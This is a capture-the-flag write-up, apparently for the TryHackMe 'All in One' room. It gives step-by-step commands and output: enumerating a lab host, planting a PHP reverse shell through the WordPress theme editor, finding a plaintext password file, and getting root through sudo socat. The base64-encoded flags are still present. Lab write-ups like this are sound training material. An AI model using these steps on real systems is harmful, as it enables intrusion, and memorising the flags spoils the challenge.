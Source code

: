 # All in One
Enumerating the machine with nmap, we get:
```
➜  ~ nmap -sV 10.10.145.227
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-10 10:10 CET
Nmap scan report for 10.10.145.227
Host is up (0.046s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
```
First of all we might check if the ftp server has anonymous access:
```
➜  ~ ftp 10.10.145.227 
Connected to 10.10.145.227.
220 (vsFTPd 3.0.3)
Name (10.10.145.227:emil): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
Nice, but there is nothing of interest in the directory and we don't have write permissions...
Accessing the http server on port 80 yields nothing but the standard Apache2 default page.
Enumerating for directories shows us:
```
➜  ~ gobuster dir --url http://10.10.145.227/ --wordlist=/home/emil/KaliLists/dirbuster/directory-list-2.3-medium.txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:            http://10.10.145.227/
[+] Method:         GET
[+] Threads:        100
[+] Wordlist:       /home/emil/KaliLists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.1.0
[+] Timeout:        10s
===============================================================
2020/12/10 10:16:16 Starting gobuster in directory enumeration mode
===============================================================
/wordpress (Status: 301)      
/hackathons (Status: 200)      
/server-status (Status: 403)     
                                  
===============================================================
2020/12/10 10:18:48 Finished
===============================================================
```
Seeing whats inside `/hackathons` we get:
```
➜  ~ curl http://10.10.145.227/hackathons
<html>
  <body>
    <h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>
    <!-- Dvc W@iyur@123 -->
    <!-- KeepGoing -->
  </body>
</html>
```
Hate vinegar? Smells like a vigenére cipher. 
Trying to decode `Dvc W@iyur@123` with the key `KeepGoing` gives us:
```
Try <REDACTED>
```
Sweet, looks like a password for something.

Now lets look at the `/wordpress` directory.
It doesn't show much. It only has one post made by the user `elyana`.
We can now check if the user and the password found before match by going to `/wordpress/wp-admin`.
Awesome! They work. We're now logged in as `elyana` on the wordpress dashboard.
We can see that `elyana` is an administrator by going to the users page. How convinient.
We can now browse to the `Appearance>Theme Editor` and inject a webshell in one of the themes php files.
I used the `php-reverse-shell` from pentestmonkey and injected the code to index.php.
Setting by a netcat listner and browsing to the main page of the site, we get a shell:
```
➜  ~ nc -lnvp 1234
Connection from 10.10.145.227:39436
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:46:01 up  1:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Checking which users have a home directory on the system we find:
```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Oct  5 19:38 .
drwxr-xr-x 24 root   root   4096 Oct  5 19:33 ..
drwxr-xr-x  6 elyana elyana 4096 Oct  7 13:41 elyana
$ cd elyana
$ ls -la
total 48
drwxr-xr-x 6 elyana elyana 4096 Oct  7 13:41 .
drwxr-xr-x 3 root   root   4096 Oct  5 19:38 ..
-rw------- 1 elyana elyana 1632 Oct  7 13:42 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4096 Oct  5 19:38 .cache
drwxr-x--- 3 root   root   4096 Oct  5 20:03 .config
drwx------ 3 elyana elyana 4096 Oct  5 19:38 .gnupg
drwxrwxr-x 3 elyana elyana 4096 Oct  5 20:43 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5 19:38 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6 20:24 hint.txt
-rw------- 1 elyana elyana   61 Oct  6 20:28 user.txt
$ cat hint.txt  
Elyana's user password is hidden in the system. Find it ;)
```
Searching for readable files owned by `elyana` we get:
```
$ find / -user elyana -perm -004 2>/dev/null
/home/elyana
/home/elyana/.local
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
```
Hmmm.. `private.txt` seems promising:
```
$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: <REDACT>
```
Awesome! To get a proper shell we can now try to login with ssh:
```
➜  ~ ssh elyana@10.10.145.227
elyana@10.10.145.227's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 10 09:53:33 UTC 2020

  System load:  0.09              Processes:           115
  Usage of /:   53.6% of 6.41GB   Users logged in:     0
  Memory usage: 49%               IP address for eth0: 10.10.145.227
  Swap usage:   0%


16 packages can be updated.
0 updates are security updates.


Last login: Fri Oct  9 08:09:56 2020
-bash-4.4$
```
We can now read the flag:
```
-bash-4.4$ cat user.txt 
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```
That's not the proper flag format? It does however look like base64.
```
-bash-4.4$ base64 -d user.txt 
THM{<REDACTED>}
```
Now lets get to rooting ;)
Seeing what we're able to run with sudo:
```
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```
According to the man page of `socat`: "Socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them." 
Wonder what would happen if we tried to stream between STDIN and let's say `/bin/bash`?
```
-bash-4.4$ sudo socat stdin exec:/bin/sh
whoami
root
```
Now we can read the root flag:
```
cat /root/root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```
Seems like this is also in base64:
```
base64 -d /root/root.txt
THM{<REDACTED>}
```
